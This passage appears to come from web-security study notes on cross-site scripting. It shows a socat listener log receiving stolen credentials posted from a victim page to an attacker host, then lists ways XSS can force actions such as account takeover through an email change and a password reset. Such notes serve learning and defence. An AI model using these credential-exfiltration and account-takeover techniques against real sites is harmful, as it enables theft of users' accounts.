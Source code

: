 ```
2022/07/27 15:58:11 socat[253401] N forked off child process 253456
2022/07/27 15:58:11 socat[253401] N listening on AF=2 0.0.0.0:80
2022/07/27 15:58:11 socat[253456] N using stdout for reading and writing
2022/07/27 15:58:11 socat[253456] N starting data transfer loop with FDs [6,6] and [1,1]
POST / HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://meta/
Content-Type: text/plain;charset=UTF-8
Origin: http://meta
Content-Length: 14
Connection: close

admin:password
```

---

## Exploiting cross-site scripting to perform CSRF
- *Anything a legitimate user can do on a web site,*
   you can probably do too with XSS.
- *Depending on the site you're targeting,*
   you might be able to make a victim:
   - send a message,
   - accept a friend request,
   - commit a backdoor to a source code repository,
   - or transfer some Bitcoin.
- Some websites allow logged-in users to change their email address without re-entering their password.
   *If you've found an XSS vulnerability,*
      you can make it trigger this functionality to:
      change the victim's email address to one that you control,
      and then trigger a password reset to gain access to the account. 
